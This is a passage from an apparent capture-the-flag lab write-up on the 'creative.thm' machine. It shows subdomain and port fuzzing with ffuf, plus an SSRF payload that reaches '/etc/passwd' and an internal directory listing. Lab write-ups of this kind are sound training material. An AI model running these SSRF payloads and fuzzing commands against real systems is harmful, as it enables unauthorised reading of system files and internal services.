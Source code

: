 - Since there's absolutely nothing, let's fuzz for subdomains.

  ```
  $ ffuf -w /seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://creative.thm/ -H "Host:FUZZ.creative.thm" -fw 6 

  beta                    [Status: 200, Size: 591, Words: 91, Lines: 20, Duration: 61ms]
  :: Progress: [114442/114442] :: Job [1/1] :: 784 req/sec :: Duration: [0:02:36] :: Errors: 0 ::
  ```
  
- Add that subdomain to `/etc/hosts` and let's exploit it.

---

## 🌐 Web Exploitation 

- When you visit the beta subdomain you already know it's vulnerable to SSRF, so there must be some other service running on some port since this payload was successful `http://127.0.0.1/../../../../../etc/passwd`. 

- I tried SSRFMap tool but it didn't work, so I made a wordlist of all the ports and fuzzed for ones that are open.

  ```
  $ seq 65535 > ports.txt 

  $ ffuf -w ports.txt -u http://beta.creative.thm/ -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "url=http://127.0.0.1:FUZZ" -fw 3
  
  80                      [Status: 200, Size: 37589, Words: 14867, Lines: 686, Duration: 251ms]
  1337                    [Status: 200, Size: 1143, Words: 40, Lines: 39, Duration: 168ms]
  ```

- Now when you test that port on URL tester you will get this:

  ```
  http://127.0.0.1:1337

  Directory listing for /
  
      .badr-info
      bin@
      boot/
      dev/
      etc/
      home/
      lib@
      lib32@
      lib64@
      libx32@
      lost+found/
      media/
      mnt/
      opt/
      proc/
      root/
      run/
      sbin@
      snap/
      srv/
      swap.img
      sys/
      tmp/
      usr/
      var/
  ```
